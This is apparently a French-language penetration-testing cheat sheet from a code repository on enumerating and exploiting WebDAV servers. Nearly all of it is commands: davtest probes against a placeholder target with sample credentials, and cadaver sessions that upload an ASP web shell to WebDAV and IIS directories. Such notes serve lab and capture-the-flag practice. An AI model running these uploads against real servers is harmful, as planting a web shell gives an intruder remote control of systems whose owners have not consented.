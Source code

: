 # 📤 Énumération WebDAV

[🏠 Accueil](../README.md) | [🌐 HTTP](http-web.md) | [📁 SMB](smb-samba.md) | [📂 FTP](ftp.md) | [🔐 SSH](ssh.md) | [🗄️ MySQL](mysql.md) | [📧 SMTP](smtp.md)

## Davtest
```bash
davtest -url targetIP/directorieSecret
davtest -url targetIP/directorieSecret -u user -p password
davtest -auth bob:password_123321 -url targetIP/directorieSecret
```

## Cadaver (avec authentification)
```bash
cadaver targetIP/directorieSecret
cadaver targetIP/directorieSecret -u user -p password
# Une fois connecté :
put /usr/share/webshells/asp/webshell.asp
```

## IIS WebDAV
```bash
davtest -url http://targetIP/webdav
davtest -auth bob:password_123321 -url http://targetIP/webdav
cadaver http://targetIP/webdav
put /usr/share/webshells/asp/webshell.asp
```